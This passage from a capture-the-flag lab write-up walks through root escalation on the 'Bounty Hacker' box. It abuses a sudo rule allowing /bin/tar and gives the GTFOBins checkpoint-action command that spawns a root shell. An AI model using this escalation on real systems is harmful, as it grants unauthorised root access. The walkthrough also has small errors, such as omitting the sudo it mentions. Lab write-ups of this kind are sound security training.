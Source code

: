 Lets try running the `sudo -l` command.

`-l` = this option will list the allowed (and forbidden) commands for the invoking user

```console
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

As we can see in the output, Lin might be able to run the `/bin/tar` as the root. Lets see how we can make use of this to elevate our priviliges. 

For this, i'll search for 'tar' in [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) which contains a list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

This gave me 3 different options, but the first one should be enough for this one:  
`tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

Lets try running this with sudo
```console
lin@bountyhacker:~$ tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
#
```
So what happened you might ask. Try running the `whoami` command to see who we are.

Root. Right? :D

Fantastic, lets move to the `/root` directory and see its contents
```console
root:~$ cd /root | ls
root.txt
```

We have the root.txt file! Lets open it
```console
root:~$ cat root.txt
THM{...}
```

Congratulations, you now have the root flag.